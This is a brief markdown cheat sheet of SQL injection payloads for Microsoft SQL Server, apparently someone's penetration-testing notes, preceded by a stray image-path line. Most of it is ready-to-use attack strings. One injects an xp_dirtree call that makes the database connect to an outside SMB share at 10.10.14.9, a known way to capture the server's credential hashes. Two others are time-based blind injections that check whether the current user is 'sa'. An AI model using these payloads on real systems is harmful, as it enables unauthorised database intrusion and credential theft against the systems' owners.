 # SQL Injection

- Commenting: `--`

## Important functions

- xp_dirtree - undocumented MSSQL stored procedure that allows for interaction with local
and remote filesystems

```
'+EXEC+master.sys.xp_dirtree+'\\10.10.14.9\share--
```

## Time based injection

```
' if (select user) = 'sa' waitfor delay '0:0:5'--
' if (select user) != 'sa' waitfor delay '0:0:5'--
```
